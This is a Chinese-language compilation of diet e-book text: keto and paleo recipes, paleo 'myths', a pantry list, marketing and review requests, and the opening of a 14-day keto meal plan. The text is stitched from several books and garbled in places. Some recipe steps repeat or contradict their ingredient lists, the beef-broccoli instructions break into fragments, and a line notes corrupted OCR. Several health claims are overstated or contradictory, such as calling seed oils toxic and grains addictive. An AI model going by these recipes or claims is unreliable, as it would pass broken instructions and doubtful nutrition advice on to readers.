- 豆类：这包括豆类、花生和扁豆，含有非常高的淀粉。
- 啤酒：啤酒是谷物制品，含有高碳水化合物。如果你必须喝酒，请选择低碳啤酒。
- 无糖饮料：甜味饮料含有大量的果糖和玉米糖，含有你应该避免的高碳水。
- 牛奶：尤其是脱脂牛奶因为它含有乳糖。发酵乳制品如酸奶乳糖较少，因为发酵细菌消耗了乳糖。如果你必须包含乳制品，选择发酵制品。

如果你计划开始生酮饮食，你应该计划做出许多牺牲，如果你是一个食物爱好者。减少糖分摄入并避免淀粉食物将对饮食的成功大帮助。

## 第三章：早餐组合

### 炒蛋

### 配料

- 1 汤无盐黄油
- 2 个大鸡蛋
- 一小撮盐和现磨黑胡椒

### 做法

用叉子搅拌鸡蛋

在平底锅中，用小火融化黄油。

加入蛋液。

用铲子轻轻将蛋推向锅中心，让水分部分流到下方。一边用铲子移动蛋，直到蛋定型。这大约需要 2 到 3 分钟。

用盐和胡椒调味；并热吃。

### 椰菜华夫

### 配料

- 2 个鸡蛋
- 1/4 杯马苏里拉奶酪
- 1/4 杯切达奶酪
- 1 杯粗磨的椰菜花
- 1 1/2 汤切碎的新细葱
- 1/2 茶匙大蒜粉
- 1/4 茶匙洋葱粉
- 辣椒粉
- 海盐
- 现磨黑胡椒

### 步骤说明

将椰菜花和奶酪放入食物处理器中。脉冲直到彻底混合。

加入鸡蛋、细葱、大蒜粉和洋葱粉，以及少许的辣椒粉、盐和黑胡椒。处理至混合。

将混合物倒入华夫机中，烹饪直到达到理想的脆度。

将华夫饼放在盘子里，顶部涂上酸奶、奶酪和/或碎培根。

# 肉肉贝果

配料：

- 3 个洋葱，切碎
- 4 磅有机碎瘦猪肉
- 2 汤匙黄油或培根油
- 1 1/2 杯番茄酱（无糖糖）
- 3 个大鸡蛋
- 2 茶匙海盐
- 2 茶匙红椒粉
- 1 茶匙现磨黑胡椒

烹饪说明：

将烤箱预热至 400 华氏度。使用烘焙纸垫好 1 或 2 盘烤焙具。

将不粘煎锅置于中火上，融化黄油或加热培根油。加入洋葱翻炒至透明。离火并置放在一旁冷却至室温。

在一个碗中，将猪肉末、番茄酱、鸡蛋、盐、胡椒、红椒粉和炒过的洋葱混合。

将混合物分成 12 个球，然后按压每个球的中间并压平，使其看起来像贝果。

将猪肉贝果放在准备好的烤盘中，烤 40 分钟，或直到变硬。

将烤盘放在丝网架上稍稍冷却。温热食用口感最佳。

# 西兰花奶酪汤

### 配料

- 2 杯西兰花朵
- 2 杯水
- 1/2 杯软化的奶油奶士
- 1/2 杯鸡汤
- 1/4 杯 淡奶油
- 1 茶匙盐
- 适量黑胡椒
- 1 杯切达尔芝士

### 烹饪说明：

将西兰花朵蒸至变软。将所有奶油奶士、1/2 杯西兰花、所有淡奶油和 1/2 杯水放入搅拌机中。搅拌至形成顺滑的质地平滑的混合物。

将此混合物倒入大汤锅中，然后加入剩余的西兰花、鸡汤和水。搅拌至所有食材融合均匀。中火煮至微沸。

当汤锅加热后，加入切达尔芝士，搅拌至其融化并整合到混合物中。

加入适量黑胡椒。

# 燕粥

### 配料

- 1 1/2 汤匙 碎核桃
- 1 汤匙 亚麻籽粉
- 1 1/2 汤匙 椰子肉
- 1/3 杯沸水
- 适量盐
- 适量甜味糖糖或你喜好的甜味剂
- 2 汤匙 淡奶油
- 少许肉桂粉（可选）

### 烹饪说明：

将亚麻籽粉、椰子和核桃放入碗中，然后加入盐。搅拌至所有食材混合。

加入沸水，搅拌至其融入混合物中。静置一两分钟，然后加入甜味剂和奶油。

# 奇亚籽酸奶杯

配料：

- 2 杯全脂酸奶
- 4 汤匙 奇亚籽
- 1/2 茶匙肉桂粉
- 1/2 杯无糖杏仁奶
- 4 汤匙 杏仁

操作说明：

在一个碗中，将杏仁奶、奇亚籽和酸奶混合。

将一层混合物倒入 2 个玻璃杯中，然后在每个杯中加入一半的杏仁和肉桂。重复此步骤直到每杯有 3 层。

将杯放入冰箱冷藏约 12 分钟使酸奶杯浓稠。冷藏食用。

# 早餐烘蛋

配料：

- 4 个鸡蛋
- 1/2 磅 香肠
- 1/2 杯 碎酸味切达尔芝士
- 1 杯 淡奶油
- 1/2 头 菜花，细切
- 1/2 茶匙 干芥末粉
- 1/2 茶匙 海盐

烹饪说明：

将烤箱预热至 350 华氏度。在烤焙具上涂上不粘烹饪喷雾。

将不粘煎锅置于中大火上，煎香肠直到变褐并弄碎。保留多余油脂用于其他食谱。

将香肠刮入碗中，然后拌入切好的菜花、淡奶油、芝士、盐和芥末粉。置在一旁稍稍冷却。

在另一个碗中打散鸡蛋，然后拌入香肠混合物中。

将混合物倒入准备好的烤焙具中。烤 25 分钟，或直到金黄褐色。

放在丝网架上稍稍冷却，然后上菜。

# 第 4 章：主菜

## 芝士鸡块

配料：

- 4 块鸡胸肉，自由散养
- 2 杯 莫苏里拉芝士
- 2 汤匙 猪皮
- 2 茶匙 干牛至草
- 1/2 杯 亚麻籽粉
- 1 杯 帕玛森芝士
- 1 茶匙 海盐
- 1 茶匙 现磨黑胡椒
- 1/2 茶匙 辣椒碎
- 1/2 汤匙 蒜粉
- 3 茶匙 红椒粉
- 2 个大鸡蛋
- 3 茶匙 鸡汤
- 1 杯 橄榄油（分用）
- 2 杯 番茄酱（无糖糖）
- 1 茶匙 蒜末

烹饪说明：

在食物加工机或高功率搅拌机中，将猪皮、亚麻籽粉、帕玛森芝士、2 汤匙牛至草、盐、胡椒、辣椒碎、蒜粉和红椒粉混合。处理至完全混合，然后转移到碗中。

用肉质器将鸡胸肉敲至约 1 英寸厚。双面调味。将鸡胸肉浸入鸡蛋混合液中。

将烤箱预热至 400 华氏度。在烤焙具上涂上不粘烹饪喷雾。

将不粘煎锅置于中火上。将鸡胸肉切成一口大小的块。将鸡肉片放入培根油中，单面煎 1 分钟，翻转另一面煎约 5 分钟。

将姜、盐、胡椒和醋混合。将猪皮、亚麻籽粉、帕玛森芝士、2 汤匙牛至草、盐、胡椒、辣椒碎、蒜粉和红椒粉混合至充分混合，然后转移到碗中。

将鸡胸肉放入锅。将鸡块放入培根油中，让它们单面煎 1 分钟，然后翻转另一面煎约 5 分钟。

将橄榄油放入煎锅。放入鸡胸肉。将姜、盐、胡椒和醋混合。将鸡块放入烤焙具中。在顶部撒上芝士并加入酱汁。

将橄榄油放入煎锅。放入牛排直到变褐。将姜、盐、胡椒和醋混合。将鸡块放入烤焙具中。在顶部撒上芝士并加入酱汁。

将橄榄油放入煎锅中。盖上锅，直到所有水分蒸发。

# 焦香阿斯加文鱼配绿豆

配料：

- 2 盎司 阿斯加文鱼片
- 2 汤匙 椰子油
- 2 汤匙 约翰士芥末（分用）
- 1/2 汤匙 辣椒粉 甜味剂
- 1/2 茶匙 干芥末粉
- 1/4 茶匙 孜然
- 1/4 茶匙 红椒粉
- 1/4 茶匙 海盐
- 1/2 磅 绿豆
- 1 汤匙 黄油
- 2 瓣大蒜，切末
- 肉桂粉
- 黑胡椒

烹饪说明：

将辣椒粉、孜然、红椒粉、盐、甜味剂、干芥末和黑胡椒放入碗中。混合均匀。

在每片文鱼的双面涂上约翰士芥末。

将油放入煎锅。中大火下，煎制文鱼片 2 分钟，然后翻面。

盖上锅，煎 8 分钟，或直到鱼肉可以碎。取出文鱼。

同时，将汤锅置于中火上融化黄油和橄榄油。翻炒大蒜 1 分钟，然后加入绿豆。用盐和胡椒调味。偶尔翻炒防止烧焦。

将文鱼放在盘中，绿豆放在一侧。热食用。

# 鸡肉咖喱

## 配料

- 3 磅鸡腿肉
- 1 杯水
- 7 盎司帕尼奶士（paneer）包
- 1/2 杯淡奶油
- 1 杯碎番茄
- 1 大勺橄榄油
- 4 大勺黄油
- 1 1/2 茶匙大蒜泥
- 2 茶匙椰子油油
- 1 茶匙香菜粉
- 1 1/2 茶匙姜泥
- 1 茶匙盐
- 1 茶匙印度混合咖喱粉（garam masala）
- 1 茶匙现磨黑胡椒
- 1/2 大勺红辣椒粉
- 1/2 茶匙克什米辣椒粉
- 3 枝香菜

## 做法

将烤箱预热至 375 华氏度（F）。

在鸡腿肉上抹上橄榄油、盐和黑胡椒（根据口味调整），然后放在烤盘上烤约 25 分钟。

将帕尼奶士切成小块备用。

用中火预热平锅，加入椰子油和黄油。等到黄油变褐色后，加入大蒜泥和姜泥。翻炒约 2 分钟后加入番茄。

将印度混合咖喱粉、香菜粉、辣椒粉、盐和红辣椒粉混合，慢煮至表面浮油即可。缓慢拌入帕尼奶士，然后加入水并慢煮 5 分钟。

用中小火搅拌混合物，慢煮至再次沸。

当鸡肉准备好后，离火并去骨，然后将肉浸入酱汁中拌匀。再慢煮 5 分钟，最后撒上香菜装饰，趁热享用。

# 第 5 章：超级零食

## 炸鳄油果角

### 配料

- 2 个鸡蛋
- 2 个鳄油果
- 2 大勺淡奶油
- 1/2 茶匙海盐
- 2/3 茶匙现磨黑胡椒
- 1/3 杯碎猪皮渣
- 1/2 杯切丝帕玛森芝士
- 1/2 茶匙大蒜粉
- 1/3 茶匙洋葱粉
- 橄榄油，用于油炸

### 做法

在煎锅中倒入约 1 1/2 英分的油。开启中火预热至 375 华氏度。

同时，在碗中将鸡蛋和淡奶油打匀。

在盘中将猪皮渣、大蒜粉、洋葱粉和帕玛森芝士混合。

将鳄油果切成 1/2 英厚的厚角，用盐和黑胡椒调味。

将鳄油果角裹上蛋液，然后裹上芝士混合物。确保每个鳄油果角都被完全裹好。

小心将鳄油果角放入锅中的热油中；不要放得太密。油炸 1 分钟，或炸至金黄色即可。用漏勺捞出炸好的鳄油果角。

将炸好的鳄油果角放在纸巾上彻底沥干油。食用前静置 2 分钟。

## 大蒜泥芜根

### 配料

- 6 根芜根
- 1/2 杯淡奶油
- 3 瓣大蒜，切末
- 1/4 杯融化的黄油
- 海盐
- 现磨黑胡椒

### 做法

在锅的盐水中将芜根煮至极软。

彻底沥干芜根，然后转移到碗中。充分压碎，然后拌入淡奶油、大蒜、黄油、盐和黑胡椒。温热食用为佳。

# 鸡蛋马芬

## 配料

- 3 个鸡蛋
- 1/4 杯切片菠菜
- 3 片无硝酸盐火鸡
- 莫苏里拉芝士
- 1 1/2 大勺红椒
- 1 大勺细碎红洋葱
- 新鲜罗勒（可选）
- 盐和胡椒

## 做法

将烤箱预热至 350 华氏度。

将红洋葱、罗勒、菠菜和红椒切片，揉莫苏里拉芝士。

在非粘马芬模具上喷橄榄油，轻轻地将一片火鸡放入一个格中，让它停留在底部和侧面并撑开格子。

打碎一个鸡蛋并倒入有火鸡的格中。

在鸡蛋上加入一些切好的红洋葱、菠菜、红椒和芝士。

加入新鲜罗勒，并在鸡蛋上撒一点黑胡椒和盐。

将马芬模具放入烤箱中烘烤至鸡蛋定型。如果你喜欢流心蛋，十分分钟足够了，但如果想要全熟的，则至少需要 15 分钟。

## 结

读到这里，我很清楚你非常有动力开启健康生活之旅。生酮饮食（Ketogenic diet）是一个极佳的起点，我知道你将获得巨大的成效。这种饮食是减肥脂肪的一种非常简单高效的方法，能让你的身体变成一台健康的机器。你不仅会减轻，这种饮食还有许多其他健康益处。另一个优点是它可以提高身体将脂肪转化为能量的能力，这将提升你的能量水平并让你感觉极佳。

正如我之前所说，通过使用书中提到的方法，我完全相信你将实现健康目标并过上更品质的生活。

感谢阅读本书。我希望你从中获得了价值，我坚信它能让你做出更健康的选择，以实现你的目标。

学习我如何通过 3 周饮食快速减掉顽固的多余脂肪的策略。

**滑到底部获取更多信息，并领取你的免费报告和额外内容！**

## 第 1 章：原始饮食……或者我叫穴穴人饮食

长期以来，人们对这种饮食一直持怀疑态度，这是因为他们并不理解它的本质。原始饮食的核心理念是只吃我们身体演化以来适应食用的食物。这意味着所有未经加工或非基因改造的天然食物。我们的身体显然还没有适应摄入谷物、乳制品和加工食品。许多人对乳糖不耐受或无法消化谷物证明了这一点。

由于人类食用肉类、蔬菜和水果已经很久了，很容易说我们的身体已经习惯了这些。事实恰相反，因为人类食用精制白面粉、高果糖和加工食品的时间相对较短。

另一个例子显示了我们的身体尚未适应某些含有麸质的食物。有许多人无法消化麸质和其他谷物，这是否意味着我们还没有适应？

尝试一下这种饮食吧，我保证你再也不会想回去了。

这里是一些关于原始风格饮食法的其他误区。

## 我必须戒掉所有碳水！

戒掉碳水的想法是一个关于原始饮食的误解。大多数人试图减少碳水的摄入量，但其实更重要的想法是减少某种类型的碳水。遵循原始饮食的人实际上摄入了足够的碳水。原始饮食者从蔬菜、坚果和种子获取碳水，而不是面条等营养不良的白谷物。

## 将非常困难

大多数人认为，如果不吃谷物，生活将变得难以置信地艰难。刚开始可能是这样，但随着时间的推移，你会忘记它们的。你必须理解谷物（尤其是小麦）缺乏营养，未来会导致健康问题。

食用过多谷物可能导致的健康问题包括：肥胖、糖尿病、肠漏，甚至成瘾。这听起来值得你放弃谷物吗？

## 我想吃多少脂肪对我好处？

这再次归结为质量而非数量。高质量脂肪可以大量食用，而不会产生真正的健康问题。对于反式脂肪或任何加工脂肪并非如此。黄油、高质量动物脂肪、牛油果、椰子油、橄榄油以及鸡蛋中的脂肪将为你提供极好的营养和健康。

避免任何精制、加工和氢化的油，如葵花油、棉籽油或菜籽油。这些对身体是有毒的，因为它们含有引起炎症的高含量 Omega 6 脂肪酸。

## 先是不吃碳水……现在不吃牛奶？

是否食用乳制品真的取决于你的个人选择。如果你乳糖不耐受，显然要避免乳制品，但你可以坚持选择无激素、草饲的乳制品。不要大量乳制品很重要，所以不要让它成为每日饮食的一部分，特别是当你的目标是减肥时。

## 第 2 章：惊人的食材

在这里我将为你提供一份你需要储备的食材清单。有些对你来说可能是新鲜，但不会多久：

- 冷冻汤底（鸡、牛或蔬菜）
- 干燥和新鲜香草及香料（我最喜欢牛至香、姜黄和肉桂）
- 椰奶和奶油
- 椰子油、橄榄油、牛油果油
- 新鲜柠檬
- 新鲜蒜和姜
- 牛油果
- 迪戎芥末酱
- 蜂蜜
- 碎番茄或番茄泥
- 希腊酸奶（优质蛋白质来源）
- 一块 100% 黑巧克力（作为你的作弊奖励零食）
- 大量优质黄油

## 第 3 章：丰富的早餐

### 培根牛油果蛋饼

食材
- 3 片培根
- 2 汤匙碎红洋葱
- 1 个牛油果
- 1 汤匙碎新鲜香菜
- 根据喜好准备的辣酱
- 3 个鸡蛋

做法
将培根煎至酥。将牛油果切对半并去核。将果肉挖入碗中。

将其压碎，但确保不要太太细，因为食物需要一点质感。

将香菜和洋葱加入牛油果中。培根煎好后，出锅，沥干并切碎或压入混合物。轻轻搅拌整个混合物。将鸡蛋打入碗中，搅拌均匀并做两个蛋饼。将一半牛油果混合放入一个蛋饼中。你可以用辣酱调味。

### 辣末根炒蛋

食材
- 3 片生培根
- 3 个鸡蛋
- 1 茶匙辣末根

做法
将煎锅置于中火。将培根放入锅中。煎至酥脆，好后沥干并切碎。将所有鸡蛋与辣末根一起打散。

留一汤匙油来煎蛋。将鸡蛋放入锅中煎至几乎定型。

加入培根碎并搅拌。烹饪约 3 分钟后上菜。

### Menemen（土耳其炒蛋）

食材
- 1/2 个红洋葱，切丁
- 1 个中等番茄，切丁
- 1 汤匙橄榄油
- 1 瓣蒜，压碎
- 1/4 茶匙粉孜然
- 1/2 茶匙黑胡椒
- 1/4 茶匙姜黄粉
- 1/4 茶匙辣椒片
- 2 个鸡蛋
- 1/4 茶匙盐
- 1 汤匙碎新鲜欧芹

做法
在煎锅中用橄榄油中低火翻炒洋葱、青椒和番茄。压碎大蒜放入锅中然后搅拌。经常搅拌继续烹饪。在蔬菜快熟时，将鸡蛋放入碗中打散。蔬菜快好后，倒入鸡蛋煎熟。

### 菠菜培根烤蛋

食材
- 2 个大鸡蛋
- 3/4 杯婴儿菠菜
- 4 汤匙 奶油
- 3 片苹果木熏培根

做法
预热烤箱至 400 度。在不粘锅中刷橄榄油，煎培根至酥脆，好后，在纸巾上沥油。将菠菜放入锅中翻炒 1 分钟，转移至碗中沥油。切碎培根。

取出菠菜并撒上培根。用勺子在中心挖一个洞。将鸡蛋倒入洞中，烤至蛋白定型。在每个每个蛋上淋 1 汤匙奶油。盛入盘中并撒上欧芹点缀。

### 墨西哥肉肠鸡蛋卷饼

食材
- 4 个大鸡蛋
- 4 葱，切片
- 1 杯碎奶酪（草饲）
- 4 张亚亚籽饼
- 辣酱或莎莎
- 3/4 杯新鲜墨西哥肉肠
- 4 汤匙新鲜香菜（分用）
- 酸奶油（可选）

做法
在大不粘锅中刷上橄榄油，直接在电炉炉上烤饼至出现焦痕，用夹子翻面，将饼平铺在锅中，每张饼涂上 1/4 杯碎奶酪并备用。在中碗中打散 2 汤匙香菜和鸡蛋，用黑胡椒调味。中火在锅中煎肉肠至熟，用勺背压碎并加入葱。加入鸡蛋混合物搅拌。煎至几乎定型后离火。

大火在锅中煎饼至酥。将鸡蛋混合物分在饼上，撒上剩余的香菜，将每个卷饼对折后上菜。

## 第 4 章：卓越沙拉

沙拉对于原始饮食的人来说是非常棒的餐，因为它们可以非常灵活。由于种类多样，它们永远不会无聊，而且非常容易制作。这里是一些很好的食谱。

### 蜂蜜芥末科布沙拉

- 2 个 水煮蛋，切四份
- 2 杯切碎混合生菜叶
- 1 杯煮熟切丁的鸡胸肉
- 1/2 杯脆的培根碎
- 1/2 杯碎蓝奶士
- 1 个番茄，切丁
- 1/2 个洋葱，切丁
- 1/2 个黄瓜，切丁

酱料原料：
- 2 茶匙迪戎芥末酱
- 2 茶匙蜂蜜
- 1 瓣蒜，压碎
- 盐和黑胡椒
- 1 汤匙细切的欧芹

说明
在一个大型浅碗中，先铺上混合生菜作为底。然后，将其他沙拉食材以条纹状铺在生菜上。最后，将酱料原料混合在一起，搅拌均匀，并沿着条纹相反的方向淋在沙拉上，形成一个漂亮的网格图案。你可以根据选择在上面撒一些碎坚果来增加口感。

## 茴仁油果沙拉

食材：

- 1 个牛油果
- 1 个切薄片的茴仁根
- 1/2 根黄瓜，切成楔形
- 1 汤苹果醋
- 少许红椒粉
- 盐和黑胡椒
- 1 汤橄榄油
- 1 茶匙芝麻

制作说明

确保茴仁切得越薄越好——尽可能使用切片刀。只有非常嫩的部分才适合这道沙拉，如果能买到小茴仁更好。

将茴仁与切碎牛油果混合，用油、醋、盐、黑胡椒和红椒粉调制酱汁。沙拉在食用前可以“腌制”一会儿。

在顶部撒上芝麻。

## 草莓菠菜沙拉

食材

- 1 把嫩菠菜或小菠菜叶
- 2 杯草莓 —— 切薄片
- 2 块煮好的鸡胸肉
- 1/2 杯非常酥脆的碎状培根
- 1 汤蜂蜜
- 1 汤橄榄油
- 1 汤柠檬汁

制作说明

将所有食材混合。立即食用以防沙拉变软。点上新鲜的三色堇花装饰看起来非常美观——是夏季烧烤的理想选择。

## 木瓜洋葱沙拉

食材

- 1 个中等大小的橙肉木瓜，去籽
- 3/4 个切薄片的红洋葱
- 1/2 杯切碎的菲塔奶士
- 黑胡椒和盐
- 1 汤现榨青柠汁
- 1 汤橄榄油

制作说明

将木瓜切成一口大小的方块，然后加入极、极薄的红洋葱。撒上碎菲塔奶士。

用柠檬汁和橄榄油调制酱汁，根据口味加入盐和黑胡椒。这道沙拉在食用前可以放置几分钟让味道融合。配上几枝新鲜薄荷装饰也非常美观。

## 罗勒蓝莓烤牛肉沙拉

食材：

- 1 杯新鲜蓝莓
- 1 块煮好/烤好的西冷眼牛排，切薄片
- 2 把整片罗勒叶
- 3 杯切碎的生菜
- 1 个切细丁的苹果
- 盐和黑胡椒
- 1/4 杯希腊酸奶
- 1 汤橄榄油
- 1 汤柠檬汁
- 1/4 茶匙柠檬皮屑
- 1/2 杯切碎的碧桃桃

制作说明

将牛肉煮熟并切薄片，然后放凉。在碗中混合生菜、罗勒和蓝莓，并加入其余食材拌匀。尽量让食材的切碎大小大致相同，以确保沙拉口感均匀。

混合酱汁原料（橄榄油、酸奶和柠檬汁），淋在沙拉上。将切好的牛肉片铺在沙拉上并立即食用。

## 罗勒杏仁鸡肉沙拉

食材

- 2 块块煮好并切片的鸡胸肉
- 1/2 杯煮好的培根碎
- 1/2 个切碎的番茄
- 1/2 个切碎的黄瓜
- 2 汤现制的罗勒青酱
- 盐和黑胡椒
- 3 杯混合生菜叶
- 1 汤烤过的松子
- 3 汤杏仁片
- 1 汤蜂蜜
- 1 汤柠檬汁
- 1 汤橄榄油
- 1 汤切丁洋葱
- 1 汤切丁欧芹

制作说明：

将鸡肉、培根、生菜叶、番茄和黄瓜混合成沙拉。用蜂蜜、橄榄油、柠檬汁、洋葱和欧芹调制酱汁。搅拌均匀后与沙拉混合。将沙拉盛放在大餐盘中，淋上新鲜的罗勒青酱，然后撒上杏仁片。立即食用。

## 亚洲胡萝卜沙拉

食材：

- 3 根擦丝胡萝卜
- 亚洲风味酱汁
- 1 汤酱油
- 1 汤碎香菜
- 1 汤碎洋葱
- 1 汤碎姜末
- 1 汤塔墨西哥辣椒酱
- 1 汤芝麻
- 1 汤米醋
- 盐和黑胡椒（可选）

制作说明：

搅拌沙拉酱汁原料，然后淋在擦丝的胡萝卜上。简单但非常、非常美味。

## 第 5 章：大份主菜

## 生姜牛肉西兰

食材：

- 2 茶匙黑胡椒
- 2 瓣大蒜，切末
- 2 杯胡萝卜，切薄片
- 2 茶匙现磨姜末
- 1 汤亚麻籽粉
- 2 汤椰子油（分离）
- 1 根青葱，切薄片
- 1/2 杯低钠鸡汤
- 1 磅小西冷眼牛排，切片
- 2 棵西兰花，，切成小朵
- 1/2 茶匙辣椒碎
- 柠檬汁
- 1/4 茶匙海盐

制作方法：

在锅中用中大火加热 1 汤椰子油和大蒜。加入西冷肉排和海盐翻炒，然后将西冷肉排盛出锅备用。倒干锅里的汁。

混合柠檬汁、姜末、黑胡椒，然后放凉。在碗中混合……和，和其余的……尽量让食材的切碎大小大致相同……为了一个……和沙拉。

## 牛肉蔬菜

食材：

- 1 磅新鲜牛肉
- 1 把嫩菠菜
- 1/2 杯水
- 2 杯胡萝卜
- 1 杯蘑菇
- 1 汤蜂蜜
- 1/2 杯酱汁
- 1 个中等洋葱
- 2 汤橄榄油
- 1 汤孜然
- 盐和黑胡椒
- 2 个大西葫芦
- 1/2 杯咖喱
- 1 茶匙新鲜盐

## 红酒汁煎牛排

食材：

- 1 磅西冷眼菲里肉（菲里效果很好）
- 吃草饲黄油
- 1/2 杯红酒
- 2 瓣压碎的大蒜
- 1 茶匙新鲜欧芹
- 盐和现磨黑胡椒

制作说明：

准备牛排，双面调味。在热锅中煎牛排，你会产生“美拉德反应”，这会让肉类变色并变得美味。

牛排会继续变熟，所以目标应该是比你最终喜欢的稍一点。不要用叉子或刀反复戳牛排，因为这会流失汁并使肉变干。

对肉质满意后，或经过几分钟，迅速取出并用锡纸包裹以防肉变冷并让其继续熟化。

## 烤鸡

食材：

- 1 只走地鸡，已去内脏
- 2 汤黄油
- 4 瓣新鲜大蒜
- 你喜爱的香草
- 1/2 个新鲜柠檬
- 盐和黑胡椒
- 橄榄油

制作说明

制作烤鸡的方法有很多种，但有时简单的方法是最好的。记住在烤之前不要洗鸡，但要尽可能将皮肤擦干——这样口感才脆。

将烤箱预热至 350 度华氏（175 氏度）。

将鸡放入烤盘中。用利的刀在胸肉周围皮肤上切 6 到 8 个小口。在这些切口中塞入小块黄油、整颗大蒜和干香草。尽量均匀分布——当黄油融化时，它会滋润鸡肉并使其充满风味。

接下来，将半个柠檬放入腔内，加入一些香草和香料。

最后，用橄榄油涂抹整只鸡，并大量撒上盐和黑胡椒。

胡椒。

将鸡胸肉朝下放在锅中烘烤 1 小时，直到用戳时流出的肉水变清（如果流出淡粉色的肉水说明鸡肉还没熟）。

煮好后，翻转鸡肉，在热格架下烤约 10 分钟，使皮变脆。

为了准备一顿正餐，将一些红薯和胡萝卜焯水，并淋上与鸡肉相同的香料和橄榄油。将它们围在鸡肉周围，烘烤期间转几次。

让鸡肉静置 10 分钟后再切开，然后搭配蔬菜和一杯白葡萄酒一起上桌。

# 鸡汤

适用于汤和炖菜。

配料：

- 1 个鸡骨，去掉了大部分肉
- 1 根半切胡萝卜
- 1 根半切西芹茎
- 3 叶月香叶
- 黑椒粒
- 1 个洋葱
- 1 汤匙苹果醋
- 你喜欢的香料

操作步骤：

找一个足够大的锅，将鸡骨完全浸没在水中。

加入水、所有蔬菜、醋（有助于从骨头中提取矿物质）和香料。煮沸后小火慢炖至少 2 小时，但不超过 4 小时。

如有必要，如果蒸发过多，向锅中加水。

当汤做好且呈金色时，滤掉蔬菜和香料，弃掉骨头。骨头应该非常脆弱，基本上已经散架。

鸡汤现在可以直接用于任何种类的汤（需要先加盐），冷冻在冰格盒中以便快速增味，或者在冬日里直接作为清淡的肉汤饮用。如果你的汤不澄清，不要担心。如果汤表面出现胶质薄膜，也不要惊慌——这说明你成功提取了营养，且汤头品质高。。

# 烤鸡

配料：

- 16 盎司冷冻无骨鸡胸
- 2 茶匙辣椒粉
- 2 茶匙孜然粉
- 1 根生切绿青椒
- 2 汤匙橄榄油
- 1 罐切丁甜洋葱
- 1 杯生洋葱
- 4 张亚麻籽饼皮

步骤：

将鸡肉切成条。将洋葱和青椒切条。

混合所有其他配料并搅拌。加入鸡肉、青椒和洋葱拌匀，然后将鸡肉混合物放入喷过油的 13x9 英寸烤盘中，烤至鸡肉熟透且洋葱熟透，约 20-25 分钟。放在亚麻籽饼皮上食用。

# 芝麻鸡

配料：

- 4 汤匙低钠酱油
- 1 汤匙橄榄油
- 2 块鸡胸
- 1 汤匙蜂蜜
- 2 杯西兰花，已煮熟

步骤：

在小碗中混合酱油、蜂蜜和芝麻。蒸西兰花，放在一旁沥干，将鸡肉切成一口大小，并用橄榄油炸。将西兰花加入有鸡肉的锅中，然后淋上酱汁。搅拌均匀配土豆食用。

## 结论

读到这里，我很清楚你已经动力开启健康生活之旅了。原始饮食法（Paleo diet）是一个极佳的起点，我知道你将获得巨大的成效。这种饮食是减肥减脂的一种非常简单高效的方法，能让你的身体变成一台健康机器。你不仅会减轻，这种饮食还有许多其他健康益处。另一个好处是它能提高你身体将脂肪转化为能量的能力，这将提升你的能量水平并让你感觉极佳。

我深毫不疑，如果你采取行动运用我在书中所提到的内容，无论你的目标是什么，你都会获得成功。

感谢阅读这本书。我希望你从中获得了价值，我坚信它能让你做出更健康的选择，以实现你预期的减肥目标。

最后，如果你喜欢这本书，我想请你个忙，能否请你给 Amazon 上给这本书留个评价？我将不胜感激！

[点击此处在 Amazon 上留下评价！]

我想尽可能接触更多的人，更多的评价将帮助我实现这一目标。感谢，并祝你好运！

另外，务必关注我的 Facebook 页面，并加入关于健康和我最新书籍的讨论中！

如果你喜欢这本书，请查看系列中的下一本书……

但等一下，如果你还没有观看关于如何通过这个 3 周饮食计划来减肥的重要视频，你可能想看一看。[点击此处观看]()

# 14 天生酮饮食计划

初学者生酮饮食食谱

我最喜欢的饮食的额外信息

在 KindleBookSpot.com 获取更多免费和特价书籍

## 目录

- 引言
- 第一章：生酮饮食的益处
- 第二章：启动生酮饮食计划
- 第三章：生酮饮食计划（14 天指南）
- 第四章：生酮早餐食谱
- 第五章：午餐食谱
- 第六章：晚餐食谱
- 第七章：生酮饮食计划零食
- 第八章：提示与技巧
- 结论
- 《14 天茶饮排毒计划》预览

## 引言

我想感谢你和……（OCR 文本继续，但在提供的源文件中似乎损坏/乱码）

话虽如此，如果你愿意，并不一定要和朋友一起开始这个计划，你可能想独自尝试。如果你选择这样做，你应该尽力保持动力，尤其是当你发现事情进展不顺利时。

## 关键食物/食材

## 肉类和奶酪

在整个生酮饮食计划中，你会被要求吃很多肉和奶酪。这是因为肉类是优质蛋白质来源，但你需要远离加工肉类，因为它们可能含有隐藏的碳水化合物。

好消息是，你每天都可以享受肉类，所以请尽管在饮食中加入更多，并尽情享受吧！

## 鱼类

鱼也是优质的蛋白质来源，此外还有非常健康的油脂。我必须强调，你需要远离裹炸和裹粉鱼类，因为这些含有大量的碳水化合物。尝试每周吃鱼不要超过三次，因为鱼类含有大量的汞。

## 奶制品

我知道要完全远离奶制品是很困难的，但有一些很好且美味的替代品。我知道这些经过了某种程度的加工，但它们能确保你获得所需的钙以及其他非常有益的营养成分。

### 水果和蔬菜

许多人认为在生酮饮食中不能吃水果和蔬菜。这是一个完全的误解，因为你需要消耗这些食物来获得能量。水果和蔬菜含有糖分，由于你不会摄入碳水化合物，你需要从其他地方获取能量。确保你只吃低糖的水果和蔬菜，以免导致体重增加。

## 酱料

面对现实吧，我们都偶尔想给餐加点酱料。虽然这作为生酮饮食的一部分是完全可以的，但你应该确保不要摄入过多的碳水。好消息是，这种饮食允许食用油基酱料和蛋黄酱，所以尽管去吃吧！

## 第三章：生酮饮食计划（14天指南）

下面将是一个14天的指南，它应该帮助你决定想吃什么。请注意，制定你自己的饮食计划是完全可以的。你看到的计划仅仅是一个指南，你可能会发现吃其他食物更符合你的口味。

## 第一天

- 早餐：奶油奶士煎饼
- 加心：马斯喀亚果
- 午餐：鸡肉培根沙拉
- 加心：奶酪片
- 晚餐：烤三文鱼

## 第二天

- 早餐：草莓肉桂谷片
- 加心：三文鱼和奶油奶士
- 午餐：低碳肉肉饼
- 加心：剩余肉类
- 晚餐：墨西哥腊肠花菜花汤

## 第三天

- 早餐：培根面包
- 加心：奶酪片
- 午餐：鸡汤
- 加心：猪皮脆和青酱
- 晚餐：奶酪洋葱咸派

## 第四天

- 早餐：柠檬蓝莓玛芬包
- 加心：猪皮脆和青酱
- 午餐：香肠披萨
- 加心：马斯喀亚果
- 晚餐：瑞典肉丸

## 第五天

- 早餐：菠菜欧姆蛋
- 加心：剩余肉类
- 午餐：随你所好
- 加心：马斯喀亚果
- 晚餐：墨西哥瓜达拉哈拉鸡

## 第六天

- 早餐：培根、蛋和西兰花
- 加心：马斯喀亚果
- 午餐：巧克力蛋白昔
- 加心：奶酪片
- 晚餐：剩余的瑞典肉丸

## 第七天

